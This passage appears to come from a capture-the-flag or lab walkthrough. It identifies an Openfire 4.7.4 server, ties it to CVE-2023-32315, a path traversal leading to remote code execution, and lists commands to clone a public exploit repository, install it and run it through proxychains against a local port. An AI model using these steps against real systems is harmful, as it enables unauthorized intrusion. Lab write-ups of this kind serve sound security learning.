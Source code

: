 ![image20](../resources/edbd444421a44478844be28d7b9a6381.png)

- We get the Openfire version - **4.7.4** -- Which leads us to **CVE-2023-32315**

**<u>CVE-2023-32315</u>**

This exploit can be done manually:

<https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce>

**or**

Using a script:

```bash
git clone https://github.com/miko550/CVE-2023-32315.git

```
- **Since we don't have a valid user, do the following:**

```bash
cd CVE-2023-32315
pip3 install -r requirements.txt
proxychains python3 CVE-2023-32315.py -t http://127.0.0.1:9090

```

